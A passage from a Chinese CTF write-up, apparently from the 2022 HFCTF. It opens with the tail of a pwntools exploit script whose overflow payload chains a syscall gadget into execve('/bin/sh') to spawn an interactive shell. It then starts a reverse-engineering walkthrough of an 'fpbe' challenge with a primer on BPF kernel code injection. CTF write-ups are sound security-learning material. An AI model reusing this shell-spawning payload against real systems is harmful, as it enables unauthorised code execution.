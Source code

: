     io.recvuntil("ARE YOU SURE?")

    #gdb.attach(io)

    syscall = 0x47cf05

    binsh = 0xc0000be000



    payload = b'/bin/sh\x00'*0x8c + p64(syscall) + p64(0) + p64(59) + p64(binsh) + p64(0) + p64(0)

    io.sendline(payload)

    io.interactive()



    #494B0F


## fpbe<br>
### 简单分析

这道题应该是re里最简单的一道了，也讲述了新的技术，比较有趣，可以学一下

拿到程序，先运行一下它

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-4-8-2022HFCTF_fpbe/1.png)

看样子ubuntu16跑不了这个程序 换到ubuntu20

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-4-8-2022HFCTF_fpbe/2.png)

看样子没什么了，拖入ida进行分析

可以看到每个函数前面几乎都带了bpf

我们可以搜一下，简单了解一下bpf是什么东西

### BPF(Berkeley Packet Filter)简介

BPF是一种内核代码注入技术

- 内核中实现了一个cBPF/eBPF虚拟机；

- 用户态可以用C来写运行的代码，再通过一个Clang&LLVM的编译器将C代码编译成BPF目标码；

- 用户态通过系统调用bpf()将BPF目标码注入到内核当中；

- 内核通过JIT(Just-In-Time)将BPF目编码转换成本地指令码；如果当前架构不支持JIT转换内核则会使用一个解析器(interpreter)来模拟运行，这种运行效率较低；

- 内核在packet filter和tracing等应用中提供了一系列的钩子来运行BPF代码

BPF提供了一种在不修改内核代码的情况下，可以灵活修改内核处理策略的方法。

这在包过滤和系统tracing这种需要频繁修改规则的场合非常有用。因为如果只在用户态修改策略的话那么所有数据需要复制一份给用户态开销较大；如果在内核态修改策略的话需要修改内核代码重新编译内核，而且容易引人安全问题。BPF这种内核代码注入技术的生存空间就是它可以在这两者间取得一个平衡。

既然是提供向内核注入代码的技术，那么安全问题肯定是重中之重。平时防范他人通过漏洞向内核中注入代码，这下子专门开了一个口子不是大开方便之门。所以内核指定了很多的规则来限制BPF代码，确保它的错误不会影响到内核
